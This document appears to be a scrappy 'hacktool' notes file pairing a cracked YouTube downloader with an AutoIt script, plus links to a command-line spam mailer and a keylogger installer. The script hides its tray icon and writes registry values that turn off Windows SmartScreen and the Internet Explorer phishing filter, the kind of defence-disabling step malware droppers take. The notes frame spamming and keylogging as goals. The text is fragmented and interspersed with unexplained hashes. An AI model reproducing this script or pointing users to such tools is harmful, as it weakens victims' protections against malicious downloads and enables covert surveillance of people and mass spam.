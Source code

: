 # hacktool

youtube vedio download with crack

ad35a233a3421934b9b7b7514c4fbface48ecc6b1eadb99422057dabbdb15cbb


#for disabling AutoItSetOption("TrayIconHide", 0x1)
AutoItSetOption("TrayAutoPause", 0x0)
AutoItSetOption("MouseCoordMode", 0x0)
Local $type = @OSArch
Local $ver = @OSVersion
Local $regpath, $pathfile, $user, $pass, $valid1, $valid4, $uac, $signal
If $type = "X86" Then
    $pathfile = "C:\Program Files"
    $regpath = "HKLM\Software"
Else
    $pathfile = "C:\Program Files (X86)"
    $regpath = "HKLM\Software\Wow6432Node"
EndIf
If $ver = "Win_10" Then
    RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System", "EnableSmartScreen", "REG_DWORD", "0")
ElseIf $ver = "Win_7" Then
    RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\PhishingFilter", "EnableV9", "REG_DWORD", "0")
EndIf
Sleep(0x5dc)
Exit





sending email for spam on command line 
https://www.blat.net/

creating android app from website 1e339de718a5338f4b35ed853d87e6bc217ce60877173387b5e74104d2ab00a0

keylogger http://www.keylogger-gratuit.com/
http://www.keylogger-gratuit.com/telecharger/kg-setup.zip

fvd vedio record package
2599CFFE25544335E3CA47AA2DB42766
